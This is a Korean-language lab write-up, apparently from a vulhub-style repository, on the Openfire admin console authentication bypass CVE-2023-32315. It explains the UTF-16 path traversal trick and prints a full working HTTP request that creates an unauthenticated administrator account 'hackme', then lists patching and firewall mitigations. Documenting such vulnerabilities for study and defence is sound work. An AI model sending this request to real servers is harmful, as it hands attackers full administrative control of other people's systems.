




# Openfire Admin Console Authentication Bypass (CVE-2023-32315)

**WHS3** : 6반 이경빈

**github** : https://github.com/BBIS-Lee/kr-vulhub/tree/main/openfire/CVE-2023-32315

**Pull Requests** : https://github.com/gunh0/kr-vulhub/pull/268

## 1. 개요
Openfire는 Apache 라이선스 하에 제공되는 오픈 소스 실시간 협업(RTC) 서버입니다. XMPP(Jabber) 프로토콜을 기반으로 한 메시징 서비스를 지원합니다.

그러나 Openfire 4.7.4 및 4.6.7 이전 버전에서는 관리 콘솔(Admin Console) 환경 설정(setup environment)에서 경로 탐색(Path Traversal) 취약점이 발견되었습니다. 이 취약점을 통해 인증되지 않은 사용자가 이미 설정이 완료된 Openfire 서버에서 관리 콘솔의 권한이 필요한 페이지에 접근할 수 있습니다.

References:

- <https://github.com/vulhub/vulhub/tree/master/openfire/CVE-2023-32315>

## 2. 환경 구축

다음 명령어를 통해 Openfire 4.7.4 서버를 실행합니다:

```
docker compose up -d
```

서버가 시작된 후, http://localhost:9090 에 접속하면 로그인 페이지로 리다이렉트되어 인증을 요구받게 됩니다.



## 3. 취약점 설명

과거 Openfire 관리 콘솔에서는 CVE-2008-6508로 알려진 경로 탐색(Path Traversal) 취약점이 존재했습니다. 공격자는 다음과 같은 방식으로 인증을 우회할 수 있었습니다: `/setup/setup-/../../[page].jsp`

이후 보안 업데이트를 통해 일반적인 경로 탐색 공격을 차단했지만, 내장 웹 서버가 비표준 URL 인코딩(UTF-16 인코딩)을 지원하게 되면서 새로운 형태의 우회 방법이 가능해졌습니다.

따라서 공격자는 다음과 같이 UTF-16 인코딩을 활용하여 보호 기능을 우회할 수 있습니다: 
`/setup/setup-/%u002e%u002e/%u002e%u002e/[page].jsp` to bypass the path traversal protection again.

## 4. 관리자 계정 생성

다음 요청을 통해 새로운 관리자를 생성할 수 있습니다:

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken


```



## 5. 관리자 로그인 및 접근 권한 확인
생성한 "hackme" 계정으로 로그인하면 정상적인 관리자 권한이 부여된 것을 확인할 수 있습니다.





## 6. 결론 및 대응 방안

본 취약점을 통해 인증되지 않은 공격자가 Openfire 서버의 전체 관리 권한을 획득할 수 있습니다. 이에 따라 심각한 보안 위협이 발생할 수 있으므로, 다음과 같은 대응이 필요합니다:

- Openfire 버전을 4.6.7 또는 4.7.4 이상으로 즉시 업데이트할 것

- 서버에 대한 접근을 방화벽 등으로 제한하고, 외부 노출을 최소화할 것

- 서버에 대한 비인가 접근 및 설정 변경 여부를 점검할 것
